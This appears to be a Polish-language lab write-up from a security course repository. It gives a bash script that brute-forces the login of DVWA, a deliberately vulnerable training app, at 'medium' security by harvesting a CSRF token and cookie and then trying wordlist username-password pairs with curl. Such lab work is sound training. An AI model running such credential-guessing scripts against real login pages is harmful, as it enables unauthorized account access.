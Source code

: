 ```bash

get_cookie() {
  csrf=$(curl -s -x "http://127.0.0.1:8080" -c dvwa.cookie "$1/login.php?security=medium&Login=Login&username=admin&password=password" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
  sed -i 's/impossible/medium/' dvwa.cookie
  curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${csrf}&Login=Login" "$1/login.php"
}

find_valid_combo() {
  while IFS= read -r password; do
    while IFS= read -r username; do
      echo -ne "\r\033[0KTrying $username:$password"
      result=$(curl -is -x "http://127.0.0.1:8080" -b dvwa.cookie "$1/vulnerabilities/brute/?username=${username}&password=${password}&Login=Login" | grep -i "password protected area")
      [[ -n "$result" ]] && echo -ne "\r\033[0KValid combo found! It's $username:$password" && exit
    done < "$2"
  done < "$3"
}

# Check if the necessary arguments are provided
if [[ -z $1 || -z $2 || -z $3 ]]; then
  display_usage
  exit 1
fi

# Get cookie
get_cookie "$1"

# Find valid combination of username and password
find_valid_combo "$1" "$2" "$3"

echo "No valid combo found!"
```

#### Efekt działania skryptu:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/brute_medium.gif "Po uruchomieniu skrypt próbuje każdej kombinacji, dopóki nie znajdzie działającej")


#### Czyszczenie pozostałości po wykonaniu skryptu:
```bash
rm ./dvwa.cookie
```
